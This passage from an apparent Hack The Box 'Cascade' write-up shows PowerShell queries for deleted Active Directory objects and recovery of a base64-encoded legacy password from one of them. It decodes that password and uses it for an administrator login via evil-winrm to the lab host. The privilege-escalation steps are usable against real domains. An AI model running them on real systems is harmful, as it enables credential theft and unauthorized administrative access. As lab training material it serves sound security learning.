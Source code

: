 ```terminal
PS c:\Users\arksvc\Documents> get-addomain | select DeletedObjectsContainer
PS c:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```
![Desktop View]({{ "/assets/img/cascade/HTB-Images-Cascade-bin.png" | relative_url }})

![Desktop View]({{ "/assets/img/cascade/HTB-Images-Cascade-bin2.png" | relative_url }})

We have the same attribute under AdminTemp `cascadeLegacyPwd` and we grab the hash password in base64 : `YmFDVDNyMWFOMDBkbGVz`

### Decoding Password
***

```terminal
$ command base64 -d passwd2.txt
```

We found the password : `baCT3r1aN00dles`

![Desktop View]({{ "/assets/img/cascade/HTB-Images-Cascade-decode2.png" | relative_url }})



### Remote Service WinRM login and Flag root
***
We get full control of Cascade machine.

```terminal
$ evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles
```

![Desktop View]({{ "/assets/img/cascade/HTB-Images-Cascade-flag_root.png" | relative_url }})

***

## **<center>Trophy</center>**

> **Your most unhappy customers are your greatest source of learning.**
>
> Bill Gates
